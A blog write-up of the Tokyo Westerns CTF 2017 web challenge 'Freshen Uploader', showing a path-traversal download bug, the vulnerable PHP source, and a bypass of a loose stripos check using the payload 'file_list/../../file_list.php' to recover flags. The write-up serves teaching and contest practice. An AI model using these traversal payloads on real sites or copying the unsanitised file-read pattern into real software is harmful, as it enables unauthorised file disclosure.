

+++
title="Tokyo Westerns CTF 2017 - Web 1 - Freshen Uploader"
date="2017-09-04"
description="A web challenge, where we have a exploit a LFI and then a vulnerable type check in PHP against return value of a string function named 'stripos'"
author="Nagesh Podilapu"
[taxonomies]
tags=["ctf", "web", "php"]
+++

In this challenge they provided a simple web page hosted at [http://fup.chal.ctf.westerns.tokyo/](http://fup.chal.ctf.westerns.tokyo/) (might not be available at this time).



All this page has is a download link, so I quickly had a look at the download link.

```
http://fup.chal.ctf.westerns.tokyo/download.php?f=6a92b449761226434f5fce6c8e87295a
```

Ah oh! Looks like we can change URL parameter **f**, so I tried to download the script **download.php** by changing parameter value to **f=../download.php**. Yay! It worked! so this is an LFI.

```php
<?php
// TWCTF{then_can_y0u_read_file_list?}
$filename = $_GET['f'];
if(stripos($filename, 'file_list') != false) die();
header("Content-Type: application/octet-stream");
header("Content-Disposition: attachment; filename='$filename'");
readfile("uploads/$filename");
?>
```

We got our first flag: **TWCTF{then_can_y0u_read_file_list?}**.

So we still need to read file_list to get another flag. Well! we went ahead and downloaded **index.php** this time.

```php
<?php
include('file_list.php');
?>
... some redacted HTML code ...
```

So, we need to download source code of file_list.php as well. But! the condition **stripos($filename, 'file_list') != false) die();** is not letting us download this file. Somehow we need to bypass this.

After a few minutes of struggle to understand what's wrong, my eyes glazed over **!=** operator which will not check type. So, I quickly opened up a php interpreter on my machine to do some trails.

```
php > if(stripos("file_list.php","file_list") != false) print "I'm here";
php > if(stripos("hello file_list.php","file_list") != false) print "I'm here";
I'm here
php > echo stripos("file_list.php","file_list");
0
php > echo stripos("hello file_list.php","file_list");
6
```

From the above, it looks like stripos is taking a source string as first parameter and substring to find as a second parameter then it's returning the first index where it found the given substring. So, by putting the string **file_list** at the very beginning of parameter **'f'** will make the result of stripos to zero, which will bypass the condition. Awesome! Now all we need to do is **f=file_list/../../file_list.php**

```php
<?php
$files = [
  [FALSE, 1, 'test.cpp', 192, '6a92b449761226434f5fce6c8e87295a'],
  [FALSE, 2, 'test.c', 325, '27259bca9edf408829bb749969449550'],
  [TRUE, 3, 'flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213', 1337, 'flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213'],
  [FALSE, 4, 'test.py', 94, '951470281beb8a490a941ac73bd10953'],
];
?>
```

Well! we have the secret file name where our flag is **flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213**.

Now we can download the file simply by using the payload **f=flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213**.

And the flag is: **TWCTF{php_is_very_secure}**

A little sarcasm included ¯\\_(ツ)_/¯
